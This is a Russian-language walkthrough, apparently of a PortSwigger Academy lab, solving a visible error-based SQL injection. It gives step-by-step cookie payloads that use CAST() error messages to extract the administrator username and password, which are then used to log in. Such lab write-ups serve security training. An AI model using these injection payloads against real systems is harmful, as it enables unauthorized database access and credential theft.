 Перейдем на страницу логина и найдем данный запрос в `Proxy` -> `HTTP history` и отправим его в `Repeater`
```
GET /login
...
Cookie: TrackingId=k6peAB6wjnaccVDM
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/9.%20Visible%20error-based%20SQL%20injection/pics%20for%20walktrough/1.png)
Добавим `'` в заголовок Cookie, и посмотрим как сервер обработает наш запрос
```
Cookie: TrackingId=k6peAB6wjnaccVDM';
```
В ответе на главной странице видим явную ошибку SQL запроса. Соответсвенно, делаем вывод о возможности SQL-инъекции
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/9.%20Visible%20error-based%20SQL%20injection/pics%20for%20walktrough/2.png)
Далее заккоментируем остаток SQL запроса, и видим, что сервер полностью обработал наш запрос, и не выдает никакой ошибки
```
Cookie: TrackingId=k6peAB6wjnaccVDM'--;
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/9.%20Visible%20error-based%20SQL%20injection/pics%20for%20walktrough/3.png)

В данной лабораторной работе мы заставляем приложение сгенерировать сообщение об ошибке, содержащее данные, возвращаемые запросом. Это эффективно превращает слепую уязвимость SQL-инъекции в видимую.

Используем функцию `CAST()` для достижения этой цели. Она позволяет нам преобразовывать один тип данных в другой
```
Cookie: TrackingId=k6peAB6wjnaccVDM'AND CAST((SELECT 1) AS int)--
```
Тем самым узнаем, что аргумент после AND должен быть типа `boolean`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/9.%20Visible%20error-based%20SQL%20injection/pics%20for%20walktrough/4.png)
Изменим запрос, чтобы аргумент был типа `boolean`
```
Cookie: TrackingId=k6peAB6wjnaccVDM'AND 1=CAST((SELECT 1) AS int)--
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/9.%20Visible%20error-based%20SQL%20injection/pics%20for%20walktrough/5.png)
Отлично. По заданию нам известно, что существует таблица `user`, в которой есть `username`, `password`. Воспользуемся данными знаниями.
```
Cookie: TrackingId=k6peAB6wjnaccVDM'AND 1=CAST((SELECT username FROM users) AS int)--;
```
Видим, что в таблице содержится больше 1 возвращаемой строки
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/9.%20Visible%20error-based%20SQL%20injection/pics%20for%20walktrough/6.png)
Ограничим количество выводимых строк до 1
```
Cookie: TrackingId='AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--;
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/9.%20Visible%20error-based%20SQL%20injection/pics%20for%20walktrough/7.png)
Отлично, на прошлом шаге мы добрались до username `administrator`. Самое время добраться до его пароля
```
Cookie: TrackingId='AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--;
```
и видим, что его пароль - `pgznj365yl2136mm4521`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/9.%20Visible%20error-based%20SQL%20injection/pics%20for%20walktrough/8.png)
И на финальном этапе логинимся под УЗ `administrator:pgznj365yl2136mm4521` и получаем уведомление об успешно выполненной лабораторной работе    
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/9.%20Visible%20error-based%20SQL%20injection/pics%20for%20walktrough/9.png)
